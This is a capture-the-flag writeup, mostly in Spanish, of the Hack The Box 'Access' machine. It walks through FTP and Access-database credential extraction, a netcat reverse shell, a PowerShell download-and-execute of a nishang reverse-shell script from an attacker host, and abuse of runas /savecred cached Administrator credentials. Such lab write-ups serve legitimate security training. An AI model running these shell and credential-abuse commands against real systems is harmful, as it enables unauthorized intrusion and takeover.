

Hack The Box: Access Writeup
Welcome to my detailed writeup of the easy difficulty machine “Access” on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.
TCP Enumeration
1$ rustscan -a 10.129.222.164 --ulimit 5000 -g
210.129.222.164 -> [21,23,80] 1$ nmap -p21,23,80 -sCV 10.129.22.164 -Pn -oN allPorts
2Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-01 21:04 CEST
3Nmap scan report for 10.129.22.164
4Host is up.
5
6PORT STATE SERVICE VERSION
721/tcp filtered ftp
823/tcp filtered telnet
980/tcp filtered http
10
11Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
12Nmap done: 1 IP address (1 host up) scanned in 8.47 secondsLos puertos aparecen como filtered, pero nos podemos hacer una idea de que servicios hay detrás.
UDP Enumeration
1$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.22.164 -oN allPorts.UDP
2Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-01 21:06 CEST
3Nmap scan report for 10.129.22.164
4Host is up.
5All 1500 scanned ports on 10.129.22.164 are in ignored states.
6Not shown: 1500 open|filtered udp ports (no-response)
7
8Nmap done: 1 IP address (1 host up) scanned in 2.42 secondsFTP Enumeration
Parece que podemos acceder al FTP de forma anónima.
1$ ftp 10.129.222.164
2Connected to 10.129.222.164.
3220 Microsoft FTP Service
4Name (10.129.222.164:pointedsec): anonymous
5331 Anonymous access allowed, send identity (e-mail name) as password.
6Password:
7230 User logged in.
8Remote system type is Windows_NT.
9ftp> dir
10425 Cannot open data connection.
11200 PORT command successful.
12125 Data connection already open; Transfer starting.
1308-23-18 09:16PM <DIR> Backups
1408-24-18 10:00PM <DIR> Engineer
15226 Transfer complete.
16ftp> Dentro del directorio Backups vemos un archivo backup.mdb y dentro del directorio Engineer vemos el archivo Access Control.zip
Al descargar los archivos me ha dado un error, pero parece que los archivos están íntegros, o al menos los magic numbers…
1$ file backup.mdb
2backup.mdb: Microsoft Access Database
3┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/access/content]
4└──╼ [★]$ file Access\ Control.zip
5Access Control.zip: Zip archive data, at least v2.0 to extract, compression method=AES EncryptedHaciendo un strings backup.mdb podemos sacar algunas cadenas de texto interesantes.
- access4u@security
- backup_admin
- admin
- 4555555555555Q
HTTP Enumeration
El sitio web parece que es un panel para visualizar una cámara de seguridad en un CPD.

Después de fuzzear el servicio HTTP, no encontré nada,y el puerto 23 que supuestamente corresponde a telnet no me envía cabeceras ni nada por el estilo, así que volví a probar con el FTP a ver si era capaz de descargar los archivos íntegros ya que no lo estaban.
FTP Enumeration (again)
Entonces intenté descargar los archivos en otro modo de transferencia ya que FTP permite el modo binary y el modo ASCII (por defecto)
1ftp> type binary
2200 Type set to I.
3ftp> dir
4200 PORT command successful.
5125 Data connection already open; Transfer starting.
608-23-18 09:16PM 5652480 backup.mdb
7226 Transfer complete.
8ftp> get backup.mdb
9local: backup.mdb remote: backup.mdb
10200 PORT command successful.
11125 Data connection already open; Transfer starting.
12100% |*********************************************| 5520 KiB 2.28 MiB/s 00:00 ETA
13226 Transfer complete.Y ahora sí que tengo los archivos íntegros.
Vemos que la base de datos de access tiene muchas tablas
1$ mdb-tables backup.mdb
2acc_antiback acc_door acc_firstopen acc_firstopen_emp acc_holidays acc_interlock acc_levelset acc_levelset_door_group acc_linkageio acc_map acc_mapdoorpos acc_morecardempgroup acc_morecardgroup acc_timeseg acc_wiegandfmt ACGroup acholiday ACTimeZones action_log AlarmLog areaadmin att_attreport att_waitforprocessdata attcalclog attexception AuditedExc auth_group_permissions auth_message auth_permission auth_user auth_user_groups auth_user_user_permissions base_additiondata base_appoption base_basecode base_datatranslation base_operatortemplate base_personaloption base_strresource base_strtranslation base_systemoption CHECKEXACT CHECKINOUT dbbackuplog DEPARTMENTS deptadmin DeptUsedSchs devcmds devcmds_bak django_content_type django_session EmOpLog empitemdefine EXCNOTES FaceTemp iclock_dstime iclock_oplog iclock_testdata iclock_testdata_admin_area iclock_testdata_admin_dept LeaveClass LeaveClass1 Machines NUM_RUN NUM_RUN_DEIL operatecmds personnel_area personnel_cardtype personnel_empchange personnel_leavelog ReportItem SchClass SECURITYDETAILS ServerLog SHIFT TBKEY TBSMSALLOT TBSMSINFO TEMPLATE USER_OF_RUN USER_SPEDAY UserACMachines UserACPrivilege USERINFO userinfo_attarea UsersMachines UserUpdates worktable_groupmsg worktable_instantmsg worktable_msgtype worktable_usrmsg ZKAttendanceMonthStatistics acc_levelset_emp acc_morecardset ACUnlockComb AttParam auth_group AUTHDEVICE base_option dbapp_viewmodel FingerVein devlog HOLIDAYS personnel_issuecard SystemLog USER_TEMP_SCH UserUsedSClasses acc_monitor_log OfflinePermitGroups OfflinePermitUsers OfflinePermitDoors LossCard TmpPermitGroups TmpPermitUsers TmpPermitDoors ParamSet acc_reader acc_auxiliary STD_WiegandFmt CustomReport ReportField BioTemplate FaceTempEx FingerVeinEx TEMPLATEExVemos una tabla que me llama la atención, auth_user que contiene credenciales.
1$ mdb-json backup.mdb auth_user
2{"id":25,"username":"admin","password":"admin","Status":1,"last_login":"08/23/18 21:11:47","RoleID":26}
3{"id":27,"username":"engineer","password":"access4u@security","Status":1,"last_login":"08/23/18 21:13:36","RoleID":26}
4{"id":28,"username":"backup_admin","password":"admin","Status":1,"last_login":"08/23/18 21:14:02","RoleID":26}engineer:access4u@security
¿Ahora bien, como uso estas credenciales? En el FTP no he podido utilizar ninguna de las dos cuentas.
Foothold
El archivo .zip está protegido con contraseña.
Y si utilizamos la credencial encontrada..
1Enter password (will not be echoed):
2Everything is Ok
3
4Size: 271360
5Compressed: 10870Tiene un archivo Access Control.pst
Estos archivos son una tabla de almacenamiento que se utiliza para almacenar copias de mensajes, calendarios… Por lo cual podría contener información sensible..
Vamos a instalar un paquete llamado pst-utils para poder jugar con este archivo.
$ sudo apt-get install pst-utils -y
Ahora con readpst podemos conseguir un archivo .mbox que son mensajes que podríamos leer.
1$ readpst Access\ Control.pst
2Opening PST file and indexes...
3Processing Folder "Deleted Items"
4 "Access Control" - 2 items done, 0 items skipped.Nos devuelve el archivo Access Control.mbox
1$ cat "Access Control.mbox"
2From "john@megacorp.com" Fri Aug 24 01:44:07 2018
3Status: RO
4From: john@megacorp.com <john@megacorp.com>
5Subject: MegaCorp Access Control System "security" account
6To: 'security@accesscontrolsystems.com'
7Date: Thu, 23 Aug 2018 23:44:07 +0000
8MIME-Version: 1.0
9Content-Type: multipart/mixed;
10 boundary="--boundary-LibPST-iamunique-1304609787_-_-"
11
12
13----boundary-LibPST-iamunique-1304609787_-_-
14Content-Type: multipart/alternative;
15 boundary="alt---boundary-LibPST-iamunique-1304609787_-_-"
16
17--alt---boundary-LibPST-iamunique-1304609787_-_-
18Content-Type: text/plain; charset="utf-8"
19
20Hi there,
21
22
23
24The password for the “security” account has been changed to 4Cc3ssC0ntr0ller. Please ensure this is passed on to your engineers.
25
26
27
28Regards,
29
30John
31
32
33--alt---boundary-LibPST-iamunique-1304609787_-_-
34Content-Type: text/html; charset="us-ascii"
35
36<html xmlns:v="urn:schemas-microsoft-com:vml" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:w="urn:schemas-microsoft-com:office:word" xmlns:m="http://schemas.microsoft.com/office/2004/12/omml" xmlns="http://www.w3.org/TR/REC-html40"><head><meta http-equiv=Content-Type content="text/html; charset=us-ascii"><meta name=Generator content="Microsoft Word 15 (filtered medium)"><style><!--
37/* Font Definitions */
38@font-face
39 {font-family:"Cambria Math";
40 panose-1:0 0 0 0 0 0 0 0 0 0;}
41@font-face
42 {font-family:Calibri;
43 panose-1:2 15 5 2 2 2 4 3 2 4;}
44/* Style Definitions */
45p.MsoNormal, li.MsoNormal, div.MsoNormal
46 {margin:0in;
47 margin-bottom:.0001pt;
48 font-size:11.0pt;
49 font-family:"Calibri",sans-serif;}
50a:link, span.MsoHyperlink
51 {mso-style-priority:99;
52 color:#0563C1;
53 text-decoration:underline;}
54a:visited, span.MsoHyperlinkFollowed
55 {mso-style-priority:99;
56 color:#954F72;
57 text-decoration:underline;}
58p.msonormal0, li.msonormal0, div.msonormal0
59 {mso-style-name:msonormal;
60 mso-margin-top-alt:auto;
61 margin-right:0in;
62 mso-margin-bottom-alt:auto;
63 margin-left:0in;
64 font-size:11.0pt;
65 font-family:"Calibri",sans-serif;}
66span.EmailStyle18
67 {mso-style-type:personal-compose;
68 font-family:"Calibri",sans-serif;
69 color:windowtext;}
70.MsoChpDefault
71 {mso-style-type:export-only;
72 font-size:10.0pt;
73 font-family:"Calibri",sans-serif;}
74@page WordSection1
75 {size:8.5in 11.0in;
76 margin:1.0in 1.0in 1.0in 1.0in;}
77div.WordSection1
78 {page:WordSection1;}
79--></style><!--[if gte mso 9]><xml>
80<o:shapedefaults v:ext="edit" spidmax="1026" />
81</xml><![endif]--><!--[if gte mso 9]><xml>
82<o:shapelayout v:ext="edit">
83<o:idmap v:ext="edit" data="1" />
84</o:shapelayout></xml><![endif]--></head><body lang=EN-US link="#0563C1" vlink="#954F72"><div class=WordSection1><p class=MsoNormal>Hi there,<o:p></o:p></p><p class=MsoNormal><o:p> </o:p></p><p class=MsoNormal>The password for the “security” account has been changed to 4Cc3ssC0ntr0ller. Please ensure this is passed on to your engineers.<o:p></o:p></p><p class=MsoNormal><o:p> </o:p></p><p class=MsoNormal>Regards,<o:p></o:p></p><p class=MsoNormal>John<o:p></o:p></p></div></body></html>
85--alt---boundary-LibPST-iamunique-1304609787_-_---
86
87----boundary-LibPST-iamunique-1304609787_-_---Podemos leer una credencial de este archivo.
security:4Cc3ssC0ntr0ller
Ahora, si nos conectamos por telnet y esperamos un poco, nos responderá pidiendo un usuario y contraseña y podemos iniciar sesión como el usuario security.
1login:security
2password:
3
4*===============================================================
5Microsoft Telnet Server.
6*===============================================================
7C:\Users\security>Esta shell de telnet no funciona de forma óptima, así que me pasé el binario de netcat para mandarme una reverse shell pero…
1C:\Users\security>.\nc.exe 10.10.14.80 443 -e cmd.exe
2This program is blocked by group policy. For more information, contact your system administrator.Así que me transmití el típico script de nishang, Invoke-PowerShellTcp.ps1
Modifiqué el script añadiendo la línea Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.80 -Port 443 al final del archivo.
Y ahora, nos mandamos la revshell..
1C:\Users\security>powershell -c IEX (New-Object Net.Webclient).DownloadString('http://10.10.14.80:8081/Invoke-PowerShellTcp.ps1')Y ya estamos en una consola mas fácil para operar
1PS C:\Users\security> whoami
2access\security
3PS C:\Users\security>Privilege Escalation
Iba a pasar el winpeas pero no tenía permisos suficientes ya que parece que hay una GPO que no me lo permite.
1PS C:\Users\security> .\winPEASx64.exe
2PS C:\Users\security> Invoke-PowerShellTcp : Program 'winPEASx64.exe' failed to execute: This program is blocked by group policy. For more information, contact your system administrator
3At line:1 char:17
4+ .\winPEASx64.exe <<<< .
5At line:128 char:21
6+ Invoke-PowerShellTcp <<<< -Reverse -IPAddress 10.10.14.80 -Port 443
7 + CategoryInfo : NotSpecified: (:) [Write-Error], WriteErrorException
8 + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorException,Invoke-PowerShellTcpEnumerando un poco la máquina manualmente, vemos que en el escritorio del usuario público hay un acceso directo.
1PS C:\USers\Public\Desktop> dir
2
3
4 Directory: C:\USers\Public\Desktop
5
6
7Mode LastWriteTime Length Name
8---- ------------- ------ ----
9-a--- 8/22/2018 10:18 PM 1870 ZKAccess3.5 Security System.lnkSiempre es interesante echar un vistazo a los accesos directos ya que a veces la secuencia de ejecución contiene credenciales, o se pueden ver cosas que no deberían estas.
1PS C:\USers\Public\Desktop> type "ZKAccess3.5 Security System.lnk"
2L?F?@ ??7???7???#?P/P?O? ?:i?+00?/C:\R1M?:Windows???:?�M?:*wWindowsV1MV?System32???:?�MV?*?System32X2P?:?
3 runas.exe???:1??:1?*Yrunas.exeL-K??E?C:\Windows\System32\runas.exe#..\..\..\Windows\System32\runas.exeC:\ZKTeco\ZKAccess3.5G/user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"'C:\ZKTeco\ZKAccess3.5\img\AccessNET.ico?%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico?%?
4 ?wN?�?]N?D.??Q???`?Xaccess?_???8{E?3
5 O?j)?H???
6 )??[?_???8{E?3
7 O?j)?H???
8 )??[? ??1SPS??XF?L8C???&?m?e*S-1-5-21-953262931-566350628-63446256-500Y aquí podemos ver que se está ejecutando el binario runas.exe y utilizando la cuenta de administrador y la flag /savecred, por lo cual, las credenciales del Administrador deben de estar cacheadas.
..\..\..\Windows\System32\runas.exeC:\ZKTeco\ZKAccess3.5G/user:ACCESS\Administrator /savecred
1PS C:\USers\Public\Desktop> cmdkey /list
2
3Currently stored credentials:
4
5 Target: Domain:interactive=ACCESS\Administrator
6 Type: Domain Password
7 User: ACCESS\AdministratoY sí, tienen pinta que están cacheadas.
Ahora, aprovechando el netcat que me había transmitido antes, como esto en principio lo va a ejecutar le usuario Administrador, no va a haber GPO que le restrinja la ejecución.
1PS C:\USers\security> runas /user:ACCESS\Administrator /savecred "cmd.exe /c C:\Users\security\nc.exe 10.10.14.80 443 -e cmd.exe"1$ sudo rlwrap -cEr nc -lvnp 443
2listening on [any] 443 ...
3connect to [10.10.14.80] from (UNKNOWN) [10.129.254.85] 49175
4Microsoft Windows [Version 6.1.7600]
5Copyright (c) 2009 Microsoft Corporation. All rights reserved.
6
7C:\Windows\system32>whoami
8whoami
9access\administrator¡Y ya estaría!
Happy Hacking! 🚀
#HackTheBox #Access #Writeup #Cybersecurity #Penetration Testing #CTF #Reverse Shell #Privilege Escalation #Exploit #Windows #FTP Enumeration (Using Binary Mode) #PST Files (Pst-Utils) #MDB Files (Mdbtools) #Bypassing Anti-Executable GPO #Abusing Cached Credentials